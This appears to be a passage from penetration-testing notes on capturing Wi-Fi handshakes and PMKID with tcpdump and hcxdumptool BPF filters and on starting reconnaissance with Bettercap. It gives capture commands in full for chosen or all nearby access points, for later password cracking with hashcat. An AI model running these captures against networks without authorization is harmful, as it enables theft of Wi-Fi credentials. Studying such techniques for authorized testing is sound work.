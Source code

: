 \*\* NOTE: We can target multiple APs

TCPDump:

```
tcpdump -s 65535 -y IEEE802_11_RADIO wlan addr3 BSSID or wlan addr3 BSSID2 -ddd > SSID.bpf
```

HCXDumptool:

```
hcxdumptool --bpfc="wlan addr3 BSSID1 or wlan addr3 BSSID2" > SSID.bpf
```

Now run it against our target

```
sudo hcxdumptool --rds=1 -F --bpf=SSID.bpf -i wlan1mon -w outfile.pcapng
```

***

To target all APs around(Not recommended without given permission)

```shell-session
sudo hcxdumptool -i wlan1mon -w outfile.pcapng
```

After a while we may see the + under the 3 or P of our target. Both of which can be used to obain the password with hashcat.

***

## Bettercap

### Handshake

Like with aircrack, we find out interface and put it into monitor mode.

Now we start bettercap selecting our interface

```
bettercap -iface (interface)
```

We begin scanning for networks

```
wifi.recon on
```

We can also show the WiFi Manufacturer of the AP

```
set wifi.show.manufacturer true
```

```
wifi.show
```

```
set wifi.recon.channel (Channel)
```
